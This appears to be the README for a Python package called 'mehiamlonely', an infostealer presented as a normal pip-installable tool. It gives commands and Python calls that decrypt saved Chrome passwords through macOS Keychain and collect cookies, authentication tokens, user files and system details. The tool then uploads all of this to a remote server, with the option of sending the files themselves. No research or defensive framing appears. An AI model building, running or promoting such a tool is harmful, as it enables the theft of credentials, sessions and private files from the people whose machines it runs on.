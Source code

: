 # Installation and Usage Guide

## Installation

```bash
# Install from PyPI (when published)
pip install mehiamlonely

# Or install from source
git clone <your-repo>
cd mehiamlonely
pip install -e .
```

## Quick Start

### 1. Create a Test Server

```bash
# Generate sample FastAPI server
mehiamlonely --create-server

# Run the server (in another terminal)
python sample_server.py
```

### 2. Extract and Upload Data

```bash
# Basic extraction and upload
mehiamlonely --server http://localhost:8000

# With verbose output to see what's being extracted
mehiamlonely --server http://localhost:8000 --verbose

# Save data locally AND upload to server
mehiamlonely --server http://localhost:8000 --output my_data.json

# Upload actual files (not just metadata)
mehiamlonely --server http://localhost:8000 --upload-files

# Test connection without extracting data
mehiamlonely --server http://localhost:8000 --test-connection
```

## Programmatic Usage

```python
import mehiamlonely.mehiamlonely_main as main
import asyncio

# Extract all data
data = main.extract_all_data()

# Extract specific components
chrome_data = main.extract_chrome_data()
files = main.extract_system_files(max_files=100)
system_info = main.extract_system_info()

# Upload to server
result = asyncio.run(main.upload_all_data("http://localhost:8000", data))
print("Upload successful:", result["success"])
```

## What Gets Extracted

### Chrome Data
- **Passwords**: Saved login credentials (decrypted using macOS Keychain)
- **Cookies**: Session cookies and authentication tokens  
- **Bookmarks**: All saved bookmarks
- **Profiles**: Multiple Chrome profiles and their settings
- **Preferences**: Browser settings and installed extensions

### File System Data
- **User Files**: Desktop, Documents, Downloads, Pictures, Movies, Music, Public
- **Applications**: Installed applications from /Applications and /System/Applications
- **File Metadata**: Size, modification date, permissions, file extensions

### System Information
- **Hardware**: CPU count, total memory, disk usage per partition
- **Processes**: Running applications (limited to 100 for performance)
- **User Info**: Username, hostname, home directory path

## Security Notes

- Uses macOS Keychain for Chrome password decryption
- Only accesses files you have permission to read
- No data is stored locally unless you specify `--output`
- All server communication is over HTTP/HTTPS
- Chrome database files are copied to temp locations to avoid locks

## API Endpoints

Your FastAPI server should implement:

- `GET /api/health` - Health check endpoint
- `POST /api/extract` - Receive extracted data JSON
- `POST /api/upload-file` - Receive uploaded files
- `GET /api/data/{client_id}` - Retrieve stored data
- `GET /api/files` - List uploaded files

## Troubleshooting

### Chrome Password Decryption Issues
- Ensure Chrome is installed and has saved passwords
- The tool uses macOS Keychain - you may need to grant permissions
- Some passwords may not decrypt if Chrome uses newer encryption

### File Access Issues
- The tool only accesses files you have permission to read
- System files in protected directories will be skipped
- Large file uploads are limited to avoid overwhelming the server

### Server Connection Issues
- Test connection first: `mehiamlonely --server <url> --test-connection`
- Check if your server implements the required endpoints
- Use `--verbose` flag to see detailed error messages
